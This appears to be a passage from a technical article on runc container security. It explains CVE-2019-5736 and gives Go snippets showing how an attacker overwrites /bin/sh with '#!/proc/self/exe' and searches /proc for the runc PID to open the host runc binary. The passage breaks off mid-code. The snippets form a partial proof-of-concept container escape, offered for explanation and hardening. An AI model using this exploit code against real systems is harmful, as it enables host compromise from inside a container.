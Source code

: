 An example for a high severity runc vulnerability is [CVE-2019-5736](https://nvd.nist.gov/vuln/detail/CVE-2019-5736), which affects runc versions prior to v1.0.0-rc7. The root cause of the vulnerability was a file-descriptor mishandling in conjunction to `/proc/self/exe`. This issue can be used to gain access to the host system when running a malicious container image or trapping a user running an `attach` by doing an `exec` command to a container. In terms of malicious container images, we can defer to the previously described security enhancements to prevent such a vulnerability.

It gets a bit trickier if a possible attacker already has access to the running container, maybe by utilizing another unknown vulnerability inside our own application. Then the attacker could overwrite `/bin/sh` in the container with `#!/proc/self/exe`.

```

fd, err := os.Create("/bin/sh")
if err != nil {
    
}
fmt.Fprintln(fd, "#!/proc/self/exe")
err = fd.Close()
if err != nil {
    
}
log.Println("overwritten /bin/sh")
```

The target `/proc/self/exe` is a symbolic link created by the Kernel for every process which points to the binary that was executed for that process. This means if `/bin/sh` is executed inside the container, then the target of `/proc/self/exe` will be executed instead, which will point to the `runc` binary on the host.

Now the attacker can proceed to write to the target (`/proc/self/exe`) and try to overwrite the runc binary on the host. This will not work in general because the Kernel will not permit runc to be overwritten during the execution of itself. To overcome this, the attacker can instead open a file descriptor to `/proc/pid/exe` to retrieve the file descriptor of the container’s init process. To find this PID, we could simply loop through all the PIDs running in the container and wait this way for the `exec` to happen:

```
pid := 0
for pid == 0 {
    pids, err := ioutil.ReadDir("/proc")
    if err != nil {
        
    }
    for _, f := range pids {
        fd, _ := ioutil.ReadFile("/proc/" + f.Name() + "/cmdline")
        if strings.Contains(string(fd), "runc") {
            log.Println("found PID:", f.Name())
            pid, err = strconv.Atoi(f.Name())
            if err != nil {
                
            }
        }
    }
}

handleFd := -1
for handleFd == -1 {
    handle, err := os.OpenFile(
        fmt.Sprintf("/proc/%d/exe", pid),
        os.O_RDONLY, 0o777,
    )
    if err != nil {
        
    }
    if int(handle.Fd()) > 0 {
```